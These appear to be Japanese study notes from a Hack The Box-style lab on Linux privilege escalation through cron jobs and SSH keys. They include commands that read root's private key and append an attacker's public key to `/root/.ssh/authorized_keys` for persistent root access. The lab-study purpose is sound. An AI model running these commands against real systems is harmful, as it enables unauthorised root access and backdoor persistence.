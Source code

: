 
スケジュールされたタスク
- スケジュールされたタスク（Windows）またはcronジョブ（Linux）を利用して特権をエスカレーションするには、通常2つの方法があります。
	- 新しいスケジュールされたタスク/cronジョブを追加する
	- 悪意のあるソフトウェアを実行するように彼らをだます
	- 新しいスケジュールされたタスクを追加できるかどうかを確認する
		- /etc/crontab
		- /etc/cron.d
		- /var/spool/cron/crontabs/root
		- cronジョブによって呼び出されたディレクトリに書き込むことができれば、実行時にリバースシェルを送信するリバースシェルコマンドでbashスクリプトを記述できる

SSHキー
- 特定のユーザーの .ssh を読み取れるアクセス権がある場合
	- 以下のプライベート ssh キーを参照・コピー
		- `cat /root/.ssh/id_rsa`
		- `cat /user1/.ssh/id_rsa`
	- ローカルにペースト・権限を与える
		- `nano id_rsa`
		- `chmod 600 id_rsa`
	- ローカルから接続
		- `ssh root@94.237.53.117 -p 53658 -i id_rsa`

ユーザー`/.ssh/`ディレクトリへの書き込みアクセス権がある場合
- ユーザーのsshディレクトリの/home/user/.ssh/authorized_keysに公開鍵を配置
- 出力ファイルを指定するには、まず ssh-keygen と -f フラグで新しいキーを作成する
```shell-session
#攻撃者PC
ssh-keygen -f key
```
- `key`（`ssh -i`で使用します）と`key.pub`の2つのファイル
- `key.pub`をコピーして、リモートマシンで`/root/.ssh/authorized_keys`に追加
- 被害者PCで実行
```shell-session
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```
- これで、リモートサーバーは、秘密鍵を使用してそのユーザーとしてログインできるはず
```shell-session
snowyowl644@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```


## LOLBANS
Living Off the Landで使うための辞書的存在
- 環境にあるものだけでやりくりする
	- つまり、Windows/Active Directoryに標準で備わっているツールやコマンドだけを使う手法に頼らざるを得ない
- また、他のツールを使うことで、アラートも少なくなる可能性がある
	- IPS/IDSなどが、通常の通信とは異なる通信ということでアラートが出るようになっている可能性もあるため

LOLBANSについてまとめているサイト
- Windows
	- https://lolbas-project.github.io
- Linux
	- https://gtfobins.github.io/
